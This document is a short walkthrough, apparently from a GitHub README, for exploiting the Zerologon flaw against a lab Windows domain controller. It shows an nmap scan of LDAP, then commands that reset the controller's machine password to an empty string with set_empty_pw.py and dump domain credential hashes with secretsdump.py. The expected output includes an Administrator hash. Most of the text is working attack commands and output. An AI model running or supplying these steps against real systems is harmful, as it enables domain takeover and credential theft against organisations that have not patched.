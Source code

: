 ```
sudo nmap -p389 -sV 192.168.1.28
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-15 22:25 PDT
Nmap scan report for 192.168.1.28
Host is up (0.00037s latency).

PORT    STATE SERVICE VERSION
389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: zerologon.learn.now, Site: Default-First-Site-Name)
MAC Address: 08:00:27:AA:C2:F6 (Oracle VirtualBox virtual NIC)
Service Info: Host: ZEROLOGON-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.45 seconds
```

## In Our Example:
1. Domain Name = ZEROLOGON
2. NetBIOS Name = ZEROLOGON-DC
3. IP address = 192.168.1.28

## change directory to the zerologon exploit folder:

```
cd ~/zerologon
```

## 1st run set_empty_pw.py to exploit the machine:

this will set the password to an empty string

python3 set_empty_pw.py \<NetBIOS-name\> \<IP-Address\>
```
python3 set_empty_pw.py ZEROLOGON-DC 192.168.1.28
```
looking for:

Success! DC should now have the empty string as its machine password.


## 2nd run secretsdump.py to dump the hashes:
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 \<Domain\>/\<NETBIOS-name\>\\$@\<IP-Address\>

it is important to have \$@ in between the NetBIOS name and the IP 

```
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 ZEROLOGON/ZEROLOGON-DC\$@192.168.1.28
```

looking for:

Administrator:500:aad3b435b51404eeaad3b435b51404ee:06ebd4bf3fa4fe306259c45e389dc976:::

